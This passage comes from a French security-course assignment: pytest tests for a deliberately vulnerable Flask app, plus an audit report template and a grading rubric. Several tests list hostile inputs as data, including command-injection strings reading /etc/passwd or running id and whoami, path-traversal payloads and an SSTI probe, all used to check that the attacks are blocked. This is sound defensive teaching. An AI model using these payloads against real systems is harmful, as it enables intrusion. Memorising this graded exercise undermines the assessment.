    def test_rate_limiting_login(self, client):
        """
        TODO : Vérifier que le rate limiting est en place sur /login.
        Après N tentatives échouées, l'application doit retourner 429.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        failed_attempts = 0
        got_rate_limited = False

        for i in range(10):
            response = client.post('/login', data={
                'email': 'alice@test.com',
                'password': f'wrong_password_{i}'
            })
            if response.status_code == 429:
                got_rate_limited = True
                break
            failed_attempts += 1

        assert got_rate_limited, \
            f"Rate limiting non déclenché après {failed_attempts} tentatives"
        # ───────────────────────────────────────────────────────

    def test_session_cookie_httponly(self, client):
        """
        TODO : Vérifier que le cookie de session a le flag HttpOnly.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        client.post('/login', data={
            'email': 'alice@test.com',
            'password': 'Alice123!'
        })
        cookies = client.cookie_jar
        for cookie in cookies:
            if 'session' in cookie.name.lower() or 'sid' in cookie.name.lower():
                assert cookie.has_nonstandard_attr('HttpOnly') or \
                       getattr(cookie, '_rest', {}).get('HttpOnly') is not None, \
                    "Cookie de session sans flag HttpOnly"
        # ───────────────────────────────────────────────────────

    def test_session_invalidated_on_logout(self, alice_client):
        """
        TODO : Vérifier que la session est bien invalidée après logout.
        Une requête authentifiée après logout doit retourner 401 ou redirect.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        # Vérifier qu'on est bien connecté
        response_before = alice_client.get('/profile')
        assert response_before.status_code == 200

        # Se déconnecter
        alice_client.get('/logout')

        # Une route protégée doit être inaccessible
        response_after = alice_client.get('/profile')
        assert response_after.status_code in [302, 401], \
            "Session toujours valide après logout"
        # ───────────────────────────────────────────────────────


# ═══════════════════════════════════════════════════════════════
# SECTION 4 — CONTRÔLE D'ACCÈS (20 pts)
# ═══════════════════════════════════════════════════════════════

class TestAccessControl:

    def test_idor_order_access_blocked(self, app, client):
        """
        TODO : Alice ne doit pas pouvoir accéder à la commande de Bob.
        Créer une commande pour Bob, tenter d'y accéder avec Alice.
        Résultat attendu : 403 ou 404.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        with app.app_context():
            # Récupérer les IDs
            alice = User.query.filter_by(email='alice@test.com').first()
            bob   = User.query.filter_by(email='bob@test.com').first()

            # Créer une commande appartenant à Bob
            bob_order = Order(
                user_id=bob.id,
                product='Secret Product',
                amount=999.99
            )
            db.session.add(bob_order)
            db.session.commit()
            bob_order_id = bob_order.id

        # Connecter Alice
        client.post('/login', data={
            'email': 'alice@test.com',
            'password': 'Alice123!'
        })

        # Alice tente d'accéder à la commande de Bob
        response = client.get(f'/api/orders/{bob_order_id}')
        assert response.status_code in [403, 404], \
            f"IDOR : Alice peut accéder à la commande de Bob ! (status {response.status_code})"
        # ───────────────────────────────────────────────────────

    def test_mass_assignment_is_admin_blocked(self, client):
        """
        TODO : Vérifier que l'inscription avec is_admin=true
        ne crée pas un compte administrateur.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        response = client.post('/register', data={
            'email': 'hacker@test.com',
            'username': 'hacker',
            'password': 'Hack123!',
            'bio': 'innocent bio',
            'is_admin': 'true',      # tentative de mass assignment
            'role': 'admin',         # autre tentative
        })

        # Vérifier que le compte créé n'est PAS admin
        # ─── À COMPLÉTER ─────────────────────────────────────
        pass
        # ───────────────────────────────────────────────────────

    def test_admin_panel_requires_admin_role(self, alice_client):
        """
        TODO : Vérifier que /admin est inaccessible à un utilisateur normal.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        response = alice_client.get('/admin')
        assert response.status_code in [302, 403], \
            "Panel admin accessible à un utilisateur non-admin"
        # ───────────────────────────────────────────────────────

    def test_csrf_protection_active(self, alice_client):
        """
        TODO : Vérifier que les requêtes POST sans token CSRF sont rejetées.
        Une requête POST /profile/update sans csrf_token doit retourner 400.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        response = alice_client.post('/profile/update', data={
            'username': 'newname'
            # Pas de csrf_token intentionnellement
        })
        assert response.status_code == 400, \
            "Requête sans CSRF token acceptée !"
        # ───────────────────────────────────────────────────────


# ═══════════════════════════════════════════════════════════════
# SECTION 5 — INJECTIONS AVANCÉES (BONUS - 10 pts)
# ═══════════════════════════════════════════════════════════════

class TestAdvancedInjections:

    def test_ssti_blocked(self, client):
        """
        TODO : Vérifier que le SSTI sur /hello est bloqué.
        Le payload {{ 7*7 }} ne doit pas retourner 49.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        response = client.get('/hello?name={{ 7*7 }}')
        data = response.get_data(as_text=True)
        assert '49' not in data, \
            "SSTI détecté : {{ 7*7 }} a été évalué → résultat 49"
        # ───────────────────────────────────────────────────────

    def test_path_traversal_blocked(self, alice_client):
        """
        TODO : Vérifier que le path traversal sur /download est bloqué.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        payloads = [
            '../../../etc/passwd',
            '..%2F..%2F..%2Fetc%2Fpasswd',
            '....//....//etc/passwd',
        ]
        for payload in payloads:
            response = alice_client.get(f'/download?filename={payload}')
            assert response.status_code in [400, 403, 404], \
                f"Path traversal possible avec : {payload}"
            # Le contenu /etc/passwd ne doit jamais apparaître
            assert 'root:' not in response.get_data(as_text=True)
        # ───────────────────────────────────────────────────────

    def test_command_injection_blocked(self, alice_client):
        """
        TODO : Vérifier que l'injection de commande sur /ping est bloquée.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        cmd_payloads = [
            'localhost; id',
            'localhost && cat /etc/passwd',
            '$(id)',
            '`id`',
            'localhost | whoami',
        ]
        for payload in cmd_payloads:
            response = alice_client.post('/ping', data={
                'host': payload,
                'csrf_token': ...  # À compléter
            })
            data = response.get_data(as_text=True)
            # La sortie de la commande 'id' ne doit pas apparaître
            assert 'uid=' not in data, \
                f"Command injection réussie avec : {payload}"
        # ───────────────────────────────────────────────────────
```

---

### 📋 PARTIE C — Rapport d'audit *(20 pts)*

```markdown
# Template rapport_audit.md

# Rapport d'Audit de Sécurité — VulnPyApp
**Auditeurs :** Prénom NOM 1 / Prénom NOM 2
**Date :** JJ/MM/AAAA
**Version auditée :** student-starter (branche Git : student-starter)
**Méthode :** OWASP Testing Guide v4.2

---

## 1. Résumé exécutif

### 1.1 Périmètre
Application Flask de démonstration, déployée localement via Docker.
URL : http://localhost:5000

### 1.2 Résultats en bref

| Sévérité | Nombre | Exemples |
|----------|--------|---------|
| Critique | X      |         |
| Élevée   | X      |         |
| Moyenne  | X      |         |
| Faible   | X      |         |
| Info     | X      |         |

### 1.3 Score de risque global
[Justification en 3-5 lignes]

---

## 2. Vulnérabilités identifiées

### VULN-001 — [Nom] — [Sévérité]

| Champ | Valeur |
|-------|--------|
| ID | VULN-001 |
| Titre | |
| CWE | CWE-XXX |
| CVSS v3.1 | X.X (Vecteur : ...) |
| Fichier | app.py:XX |
| Découverte par | Revue manuelle / Bandit / Test |

**Description :**
[Explication technique de la vulnérabilité]

**Preuve de concept :**
```
[Payload ou commande démontrant la vulnérabilité]
```

**Impact :**
[Ce qu'un attaquant peut faire]

**Recommandation :**
[Code ou configuration corrigée]

---

## 3. Résultats Bandit

[Copier-coller le résumé + analyse des faux positifs/négatifs]

## 4. Résultats Safety / pip-audit

[CVE identifiées dans les dépendances + plan de mise à jour]

## 5. Résultats pytest

```
Résultats branche vulnérable :
  FAILED tests/ ... XX tests
  PASSED tests/ ...  X tests

Résultats branche remediated :
  PASSED tests/ ... XX tests
```

## 6. Recommandations priorisées

| Priorité | Action | Effort | Impact |
|----------|--------|--------|--------|
| P1 | | Faible/Moyen/Élevé | Critique |
| P2 | | | |
...

## 7. Conclusion

[Évaluation globale du niveau de sécurité + points positifs]
```

---

### ⚖️ Grille d'évaluation — Exercice 2.B

```
┌────────────────────────────────────────────────────────────────────┐
│                       GRILLE D'ÉVALUATION                          │
│                Audit & Tests de Sécurité — Séance 2                │
├──────────────────────────────────────┬────────┬────────────────────┤
│ Critère                              │ Points │ Barème détaillé    │
├──────────────────────────────────────┼────────┼────────────────────┤
│ PARTIE A — Audit outillé             │ /40    │                    │
│  A1 - Rapport Bandit complet         │ /10    │ Stats + analyse FP │
│  A2 - Rapport Safety/pip-audit       │ /10    │ CVE + fix proposé  │
│  A3 - Checklist OWASP Top 10         │ /20    │ 2pt par catégorie  │
├──────────────────────────────────────┼────────┼────────────────────┤
│ PARTIE B — Tests pytest              │ /40    │                    │
│  Section 1 - SQLi (5 tests)          │ /10    │ 2pt par test       │
│  Section 2 - XSS (5 tests)           │ /10    │ 2pt par test       │
│  Section 3 - Auth (4 tests)          │ /10    │ 2.5pt par test     │
│  Section 4 - Access Control (4 tests)│ /10    │ 2.5pt par test     │
├──────────────────────────────────────┼────────┼────────────────────┤
│ PARTIE C — Rapport d'audit           │ /20    │                    │
│  Structure et clarté                 │ /5     │                    │
│  Qualité technique des analyses      │ /10    │                    │
│  Recommandations pertinentes         │ /5     │                    │
├──────────────────────────────────────┼────────┼────────────────────┤
│ BONUS                                │        │                    │
│  Section 5 - Tests avancés (3 tests) │ +10    │                    │
│  Pipeline CI/CD intégré              │ +5     │                    │
│  Rapport au format PDF professionnel │ +3     │                    │
├──────────────────────────────────────┼────────┼────────────────────┤
│ TOTAL                                │ /100   │                    │
└──────────────────────────────────────┴────────┴────────────────────┘

Pénalités :
  - Tests copiés/identiques sans adaptation   : -20 pts
  - Rapport < 2 pages                         : -10 pts
  - Dépôt Git absent ou non accessible        : -15 pts
  - Retard (>24h)                             : -10 pts/jour
```

---

## 📅 Récapitulatif des rendus

```
┌───────────────────────────────────────────────────────────────────┐
│                    CALENDRIER DES RENDUS                          │
├─────────────┬──────────────────────────┬────────────┬────────────┤
│ Exercice    │ Description              │ Deadline   │ Poids      │
├─────────────┼──────────────────────────┼────────────┼────────────┤
│ 1.A         │ Lab guidé (en séance)    │ Séance 1   │ -          │
│ 1.B         │ CTF SQLi & XSS           │ S1 + 7j    │ 20%        │
│ 1.C         │ Quiz fondamentaux (QCM)  │ Fin séance │ 10%        │
│ 2.A         │ Revue de code (en séance)│ Séance 2   │ 15%        │
│ 2.B         │ Audit + pytest           │ S2 + 7j    │ 25%        │
│ 3 (projet)  │ Sécurisation app Django  │ S3 + 14j   │ 30%        │
├─────────────┼──────────────────────────┼────────────┼────────────┤
│ TOTAL       │                          │            │ 100%       │
└─────────────┴──────────────────────────┴────────────┴────────────┘

Format de rendu : Archive ZIP nommée <NOM1>_<NOM2>_<exercice>.zip
Plateforme     : Moodle (lien fourni par l'enseignant)
Contact        : securite@institution.fr
```